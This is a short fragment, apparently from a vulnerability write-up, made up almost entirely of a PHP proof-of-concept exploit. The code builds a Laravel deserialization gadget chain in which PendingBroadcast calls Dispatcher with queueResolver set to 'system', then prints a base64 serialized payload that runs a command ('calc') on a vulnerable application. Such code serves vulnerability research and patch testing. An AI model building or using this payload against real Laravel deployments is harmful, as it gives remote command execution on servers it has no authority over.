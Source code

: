 <img src="./images/poc-5-5.png" alt="">

### exp
```php
<?php
namespace Illuminate\Bus {
    class Dispatcher {
        protected $queueResolver = "system";
    }
}

namespace Illuminate\Broadcasting {
    use  Illuminate\Bus\Dispatcher;
    class BroadcastEvent {
        public $connection;
        public $event;
        public function __construct() {
            $this->event = "calc";
            $this->connection = $this->event;
        }
    }



    class PendingBroadcast {
        protected $events;
        protected $event;
        public function __construct() {
            $this->events = new Dispatcher();
            $this->event = new BroadcastEvent();
        }
    }
    echo base64_encode(serialize(new PendingBroadcast()));
}
?>
```

<img src="./images/poc-5-6.png" alt="">